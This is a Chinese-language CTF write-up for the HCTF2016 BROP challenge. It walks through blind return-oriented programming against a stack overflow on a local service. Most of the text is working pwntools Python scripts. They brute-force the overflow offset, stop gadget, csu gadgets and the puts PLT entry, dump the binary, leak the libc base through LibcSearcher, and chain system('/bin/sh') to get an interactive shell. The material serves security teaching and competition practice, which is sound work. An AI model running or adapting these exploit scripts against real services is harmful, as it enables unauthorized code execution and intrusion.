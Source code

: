 #HCTF2016-BROP
题目并没有给原文件，那么就必须采取爆破的方式将我们想要的信息都给猜出来。  
解题大概思路：  
1、求出栈溢出的偏移。  
2、求出一个正常返回到main的函数位置。（来判断下面穷举时的代码）。  
3、因为__libc_csu_init一般都会用到，其中的通用gadgets在程序的其他位置中也并不常见，因此也将其作为猜解的目标。求出通用gadgets的位置。    
4、确定put函数的位置。  
5、得到put函数之后将前面的文件dump下来，求出got表中的位置，再求出加载的实际位置。  
6、确定libc，求出system函数和/bin/sh的位置。
7、利用。


ps:如果存在canary，canary在程序重启后不变，那么可以按字节对canary进行爆破。比如先尝试改变第一个字节，如果程序不能继续跑起来，就说明第一个字节不对，如果程序能跑起来，就说明第一个字节正确，继续跑下一个字节  


###求栈溢出的偏移
```
def search_offset():
        i = 1
        while 1:
                try:
                        sh = remote("127.0.0.1",9999)
                        sh.recvuntil("WelCome my friend,Do you know password?\n")
                        payload = i * 'a'
                        sh.send(payload)
                        output = sh.recv()
                        sh.close()
                        i = i + 1
                except  Exception:
                        sh.close()
                        return i - 1
```
###求出一个可以正常返回到main函数的地址
```
def stop_gadgets():
        #addr = 0x4006b2
        addr = 0x400000
        while 1:
                try:
                        sh = remote("127.0.0.1",9999)
                        payload = 'a' * 72
                        payload += p64(addr)
                        sh.recvuntil("WelCome my friend,Do you know password?\n")
                        sh.sendline(payload)
                        sh.recv()
                        sh.close()
                        print 'the addr is :0x%x' % (addr)
                        break
                except Exception:
                        addr = addr + 1
                        sh.close()
```
###求出通用gadgets的位置，为了与返回到main函数的gadget作区分，还要做一个判断
```
def find_brop_gadgets():
        addr = 0x4007b0
        while 1:
                try:
                        sh = remote("127.0.0.1",9999)
                        payload = 'a' * 72
                        payload += p64(addr)
                        payload += p64(1) * 6
                        payload += p64(stop_gadget)
                        sh.recvuntil("WelCome my friend,Do you know password?\n")
                        sh.sendline(payload)
                        sh.recv()
                        sh.close()
                        print 'the addr is :0x%x' % (addr)
                        return addr
                except Exception:
                        addr = addr + 1
                        sh.close()

def check_brop_gadgets():
        print hex(addr)
        try:
                sh = remote("127.0.0.1",9999)
                payload = 'a' * 72
                payload += p64(addr) + p64(1)*7
                sh.recvuntil("WelCome my friend,Do you know password?\n")
                sh.sendline(payload)
                sh.recv()
                sh.close()
                print 'false'
        except Exception:
                print 'true'
```
###确定put函数在plt中的位置
```
def find_put_plt():
        addr = 0x400550
        while 1:
                try:
                        payload = 72 * 'a'
                        payload += p64(brop_gadget+9)
                        payload += p64(0x400000)
                        payload += p64(addr)
                        payload += p64(stop_gadget)
                        sh = remote("127.0.0.1",9999)
                        sh.recvuntil("WelCome my friend,Do you know password?\n")
                        sh.sendline(payload)
                        output = sh.recv()
                        sh.close()
                        if output.startswith('\x7fELF'):
                                print 'the addr is :0x%x' % (addr)
                                return addr
                        else:
                                addr = addr + 1
                except Exception:
                        sh.close()
                        addr = addr + 1
```
这里存在两个知识点。
1、指向 pop r15的地址再往后一个字节就可以变成 pop rdi  
具体可以看一下两条汇编指令的机器码
![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/Stackoverflow/brop/index_files/1.png)  
pop r15 在brop_gadgets+8处，因此 pop rdi在brop_gadgets+9处  
同理也可以控制rsi
![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/Stackoverflow/brop/index_files/2.png) 
2、求出来的put地址是 0x400555，但其实put函数在plt中的实际位置是0x400560，当然使用求出来的地址也无所谓  
![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/Stackoverflow/brop/index_files/3.png) 

###利用put函数把二进制文件dump下来，从而找到put函数在got表中的地址  
```
def leak():
	addr = 0x400000
	result = ""
	while (addr<0x400700):
		payload = 72 * 'a'
		payload += p64(brop_gadget+9)
		payload += p64(addr)
		payload += p64(put_gadget)
		payload += p64(stop_gadget)
		sh = remote("127.0.0.1",9999)
		sh.recvuntil("WelCome my friend,Do you know password?\n")
		sh.send(payload)
		try:
			data = sh.recv()
			sh.close()
			try:
				data = data[:data.index("\nWelCome")] 
			except Exception:
				data = data
			if (data == ""):
				data = '\x00'
		
		except Exception:
			sh.close()
			continue;
		result += data
		addr = addr + len(data)
	with open('leak_code', 'wb') as f:
    		f.write(result)
	print 'success'
```
利用ida查看二进制文件，得到地址  
![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/Stackoverflow/brop/index_files/4.png) 
可以看到 put在got表中的地址为0x601018  
然后找到对应的libc库 ，利用偏移找到真正的system地址和/bin/sh地址，在进行利用
```
sys_addr = 0
bin_addr = 0
offset = 72
brop_gadget = 0x4007ba
stop_gadget = 0x4006b6
put_gadget = 0x400555
put_got = 0x601018

payload = 'a' * 72
payload += p64(brop_gadget+9)
payload += p64(put_got)
payload += p64(put_gadget)
payload += p64(stop_gadget)
sh = remote("127.0.0.1",9999)
sh.recvuntil("password?\n")	
sh.sendline(payload)
data = sh.recv()
put_addr = u64(data.ljust(8, '\x00'))	
libc = LibcSearcher('puts',put_addr)
libc_base = put_addr - libc.dump('puts')
sys_addr = libc_base + libc.dump('system')
bin_addr = libc_base + libc.dump('str_bin_sh')	
	
#addr = find_brop_gadgets() 
payload = 'a' * 72
payload += p64(brop_gadget+9)
payload += p64(bin_addr)
payload += p64(sys_addr)
payload += p64(stop_gadget)
sh.recvuntil("password?\n")
sh.sendline(payload)
sh.interactive()
```
